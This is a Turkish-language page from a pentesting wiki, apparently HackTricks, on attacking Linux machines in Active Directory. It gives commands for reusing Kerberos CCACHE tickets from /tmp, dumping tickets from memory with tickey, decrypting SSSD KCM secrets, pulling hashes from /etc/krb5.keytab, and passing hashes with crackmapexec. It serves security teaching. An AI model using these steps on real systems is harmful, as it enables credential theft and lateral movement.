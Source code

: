 # Linux Active Directory

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

Bir linux makinesi, bir Active Directory ortamında da bulunabilir.

Bir AD'deki linux makinesi, **farklı CCACHE biletlerini dosyalar içinde saklıyor olabilir. Bu biletler, diğer kerberos biletleri gibi kullanılabilir ve kötüye kullanılabilir**. Bu biletleri okumak için, biletin kullanıcı sahibi olmanız veya makine içinde **root** olmanız gerekir.

## Enumeration

### Linux'tan AD enumeration

Linux'ta (veya Windows'ta bash'te) bir AD'ye erişiminiz varsa, AD'yi listelemek için [https://github.com/lefayjey/linWinPwn](https://github.com/lefayjey/linWinPwn) deneyebilirsiniz.

Ayrıca, **linux'tan AD'yi listelemenin diğer yollarını öğrenmek için** aşağıdaki sayfayı kontrol edebilirsiniz:

{% content-ref url="../../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

### FreeIPA

FreeIPA, esasen **Unix** ortamları için Microsoft Windows **Active Directory**'ye açık kaynaklı bir **alternatif**'tir. Active Directory'ye benzer yönetim için tam bir **LDAP dizini** ile bir MIT **Kerberos** Anahtar Dağıtım Merkezi'ni birleştirir. CA ve RA sertifika yönetimi için Dogtag **Sertifika Sistemi**'ni kullanarak, akıllı kartlar da dahil olmak üzere **çok faktörlü** kimlik doğrulamayı destekler. Unix kimlik doğrulama süreçleri için SSSD entegre edilmiştir. Daha fazla bilgi için:

{% content-ref url="../freeipa-pentesting.md" %}
[freeipa-pentesting.md](../freeipa-pentesting.md)
{% endcontent-ref %}

## Biletlerle Oynama

### Pass The Ticket

Bu sayfada, **bir linux ana bilgisayarında kerberos biletlerini nerede bulabileceğinizi** göreceksiniz, bir sonraki sayfada bu CCache bilet formatlarını Kirbi'ye (Windows'ta kullanmanız gereken format) nasıl dönüştüreceğinizi ve ayrıca bir PTT saldırısı nasıl gerçekleştireceğinizi öğrenebilirsiniz:

{% content-ref url="../../windows-hardening/active-directory-methodology/pass-the-ticket.md" %}
[pass-the-ticket.md](../../windows-hardening/active-directory-methodology/pass-the-ticket.md)
{% endcontent-ref %}

### /tmp'den CCACHE bilet yeniden kullanımı

CCACHE dosyaları, **Kerberos kimlik bilgilerini saklamak için** ikili formatlardır ve genellikle `/tmp` içinde 600 izinleriyle saklanır. Bu dosyalar, kullanıcının UID'sine karşılık gelen **isim formatı, `krb5cc_%{uid}`,** ile tanımlanabilir. Kimlik doğrulama biletinin doğrulanması için, **`KRB5CCNAME`** ortam değişkeni, istenen bilet dosyasının yoluna ayarlanmalıdır, bu da yeniden kullanımını sağlar.

Kimlik doğrulama için kullanılan mevcut bileti `env | grep KRB5CCNAME` ile listeleyin. Format taşınabilir ve bilet, **ortam değişkenini ayarlayarak** yeniden kullanılabilir: `export KRB5CCNAME=/tmp/ticket.ccache`. Kerberos bilet isim formatı `krb5cc_%{uid}` şeklindedir; burada uid, kullanıcının UID'sidir.
```bash
# Find tickets
ls /tmp/ | grep krb5cc
krb5cc_1000

# Prepare to use it
export KRB5CCNAME=/tmp/krb5cc_1000
```
### CCACHE bilet yeniden kullanımı anahtarlık üzerinden

**Bir sürecin belleğinde depolanan Kerberos biletleri çıkarılabilir**, özellikle makinenin ptrace koruması devre dışı bırakıldığında (`/proc/sys/kernel/yama/ptrace_scope`). Bu amaçla yararlı bir araç [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey) adresinde bulunur; bu araç, oturumlara enjekte ederek biletleri `/tmp` dizinine dökme işlemini kolaylaştırır.

Bu aracı yapılandırmak ve kullanmak için aşağıdaki adımlar izlenir:
```bash
git clone https://github.com/TarlogicSecurity/tickey
cd tickey/tickey
make CONF=Release
/tmp/tickey -i
```
Bu prosedür, çeşitli oturumlara enjekte etmeyi deneyecek ve başarıyı, çıkarılan biletleri `/tmp` dizininde `__krb_UID.ccache` adlandırma kuralıyla saklayarak gösterecektir.


### SSSD KCM'den CCACHE bilet yeniden kullanımı

SSSD, veritabanının bir kopyasını `/var/lib/sss/secrets/secrets.ldb` yolunda tutar. İlgili anahtar, `/var/lib/sss/secrets/.secrets.mkey` yolunda gizli bir dosya olarak saklanır. Varsayılan olarak, anahtar yalnızca **root** izinleriniz varsa okunabilir.

\*\*`SSSDKCMExtractor` \*\* komutunu --database ve --key parametreleriyle çağırmak, veritabanını ayrıştıracak ve **gizli bilgileri şifre çözecektir**.
```bash
git clone https://github.com/fireeye/SSSDKCMExtractor
python3 SSSDKCMExtractor.py --database secrets.ldb --key secrets.mkey
```
**Kimlik bilgisi önbellek Kerberos blob'u, Mimikatz/Rubeus'a geçirilebilecek kullanılabilir bir Kerberos CCache** dosyasına dönüştürülebilir.

### Keytab'tan CCACHE bilet yeniden kullanımı
```bash
git clone https://github.com/its-a-feature/KeytabParser
python KeytabParser.py /etc/krb5.keytab
klist -k /etc/krb5.keytab
```
### /etc/krb5.keytab dosyasından hesapları çıkar

Kök ayrıcalıklarıyla çalışan hizmetler için gerekli olan hizmet hesabı anahtarları, **`/etc/krb5.keytab`** dosyalarında güvenli bir şekilde saklanır. Bu anahtarlar, hizmetler için şifreler gibi, sıkı bir gizlilik gerektirir.

Keytab dosyasının içeriğini incelemek için **`klist`** kullanılabilir. Bu araç, özellikle anahtar türü 23 olarak tanımlandığında, kullanıcı kimlik doğrulaması için **NT Hash** dahil olmak üzere anahtar ayrıntılarını görüntülemek üzere tasarlanmıştır.
```bash
klist.exe -t -K -e -k FILE:C:/Path/to/your/krb5.keytab
# Output includes service principal details and the NT Hash
```
Linux kullanıcıları için, **`KeyTabExtract`** RC4 HMAC hash'ini çıkarmak için işlevsellik sunar; bu, NTLM hash yeniden kullanımında kullanılabilir.
```bash
python3 keytabextract.py krb5.keytab
# Expected output varies based on hash availability
```
macOS'ta, **`bifrost`** anahtar dosyası analizi için bir araç olarak hizmet eder.
```bash
./bifrost -action dump -source keytab -path /path/to/your/file
```
Çıkarılan hesap ve hash bilgilerini kullanarak, **`crackmapexec`** gibi araçlar kullanılarak sunuculara bağlantılar kurulabilir.
```bash
crackmapexec 10.XXX.XXX.XXX -u 'ServiceAccount$' -H "HashPlaceholder" -d "YourDOMAIN"
```
## Referanslar
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://github.com/TarlogicSecurity/tickey](https://github.com/TarlogicSecurity/tickey)
* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#linux-active-directory)

<figure><img src="/..https:/pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** bizi takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

